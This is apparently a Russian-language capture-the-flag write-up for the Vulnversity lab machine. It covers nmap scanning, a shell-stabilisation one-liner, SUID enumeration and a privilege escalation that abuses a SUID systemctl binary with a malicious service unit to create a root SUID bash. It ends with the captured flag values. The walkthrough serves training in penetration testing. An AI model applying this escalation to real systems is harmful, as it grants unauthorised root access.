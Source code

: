 # VulnHub - Vulnversity

📅 Дата: 2025-07-01  
🧠 Сложность:  easy
💻 IP-адрес: 10.10.249.11  

---

## 🔍 Сканирование

```bash
export ip=10.10.249.11
export ports=$(sudo nmap -sS -p- $ip | grep -oP "^[0-9]+(?=/tcp\s+open)" | sort -n | paste -sd ",")
sudo nmap -sT -Pn -sV -T4 -A -p $ports $ip -oN scans/nmap.txt
```

🖼️ Nmap скан:

![nmap scan](screenshots/nmap_scan.png)

---

## 🕵️ Enumeration



## 📂 Получение доступа

Стабилизация
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```


## ⚙️ Привилегии

SUID find
```bash
www-data@ip-10-10-249-11:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/mount
/bin/umount
/bin/systemctl
...
```
### /bin/systemctl

**1. Создание временного .service-файла**
```bash
TF=$(mktemp).service
```
 - mktemp создаёт уникальный временный файл (например, /tmp/tmp.ABCD1234).
 - Добавляется .service, чтобы systemd воспринимал его как юнит.

**2. Построчная запись вредоносного юнита systemd**
```bash
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
[Install]
WantedBy=multi-user.target' > $TF
```
 - [Service] – секция, определяющая сервис.
  - Type=oneshot – означает, что сервис выполнится один раз и завершится (не демонизируется).
  - ExecStart=... – команда, которая выполнится при старте сервиса. В данном случае:
   - cp /bin/bash /tmp/root – копирует /bin/bash в /tmp/root.
   - chmod +xs /tmp/root – добавляет SUID-бит (+s), чтобы /tmp/root запускался с правами владельца (root).
 - [Install] – секция, указывающая, когда сервис должен запускаться.
  - WantedBy=multi-user.target – сервис будет активирован при загрузке системы в многопользовательском режиме.

**3. Связывание сервиса с systemd**
```bash
systemctl link $TF
```
 - systemctl link создаёт символическую ссылку из /etc/systemd/system/ на временный файл.
 - Теперь systemd "видит" этот сервис и может им управлять.

**4. Активация сервиса (моментальный запуск)**
```bash
systemctl enable --now $TF
```
 - enable – добавляет сервис в автозагрузку (создаёт симлинк в /etc/systemd/system/multi-user.target.wants/).
 - --now – сразу запускает сервис (выполняет ExecStart).

**Что происходит?**
Systemd (работающий от root) выполняет команду:
```bash
/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
```
В /tmp/ появляется файл root – это копия /bin/bash с SUID-битом.

**5. Запуск SUID-баша с правами root**
```bash
/tmp/root -p
```
 - **-p** – сохраняет привилегии (иначе bash сбрасывает SUID).


## 🏁 Флаги

- User flag: 8bd7992fbe8a6ad22a63361004cfcedb
- Root flag: a58ff8579f0a9270368d33a9966c7fd5

---

